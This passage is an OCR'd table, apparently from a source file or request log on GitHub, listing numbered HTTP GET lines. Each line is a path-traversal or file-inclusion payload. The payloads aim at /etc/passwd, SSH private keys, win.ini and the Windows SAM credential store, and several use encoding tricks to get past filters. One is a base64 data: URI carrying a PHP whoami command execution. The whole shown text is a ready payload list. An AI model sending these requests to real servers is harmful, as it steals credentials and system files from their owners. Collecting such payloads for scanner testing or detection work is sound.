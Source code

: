 |  964 |                     1 | GET /?doc=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                                 |
|  965 |                     1 | GET /?read=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                                |
|  966 |                     1 | GET /?page=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  967 |                     1 | GET /?file=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  968 |                     1 | GET /?document=../../../../WINDOWS/win.ini HTTP/1.1                                                                  |
|  969 |                     1 | GET /?template=../../../../WINDOWS/win.ini HTTP/1.1                                                                  |
|  970 |                     1 | GET /?asset=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                               |
|  971 |                     1 | GET /?config=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                        |
|  972 |                     1 | GET /?asset=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                         |
|  973 |                     1 | GET /?template_file=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                 |
|  974 |                     1 | GET /?action=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                        |
|  975 |                     1 | GET /?callback=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                      |
|  976 |                     1 | GET /?data=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
|  977 |                     1 | GET /?doc=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                           |
|  978 |                     1 | GET /?read=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
|  979 |                     1 | GET /?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg== HTTP/1.1                                      |
|  980 |                     1 | GET /?data=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  981 |                     1 | GET /?file=..%2f..%2f..%2fetc%2fpasswd HTTP/1.1                                                                      |
|  983 |                     1 | GET ///////etc/passwd HTTP/1.1                                                                                       |
|  984 |                     1 | GET /////////////etc/passwd HTTP/1.1                                                                                 |
|  985 |                     1 | GET //.//.//.//.//.//./etc/passwd HTTP/1.1                                                                           |
|  986 |                     1 | GET /../../../../../../etc/passwd HTTP/1.1                                                                           |
|  987 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd HTTP/1.1                                                   |
|  988 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc/passwd HTTP/1.1                                             |
|  989 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/passwd HTTP/1.1                           |
|  990 |                     1 | GET /?file=....//....//....//etc/passwd HTTP/1.1                                                                     |
|  991 |                     1 | GET /?doc=../../../../WINDOWS/win.ini HTTP/1.1                                                                       |
|  992 |                     1 | GET /?read=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  993 |                     1 | GET /?page=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
|  994 |                     1 | GET /?file=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
|  995 |                     1 | GET /?document=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                      |
|  996 |                     1 | GET /?template=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                      |
|  997 |                     1 | GET /?inc=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                           |
|  998 |                     1 | GET /?include=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                       |
|  999 |                     1 | GET /?path=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
| 1000 |                     1 | GET /?folder=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                        |
| 1001 |                     1 | GET /?content=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                       |
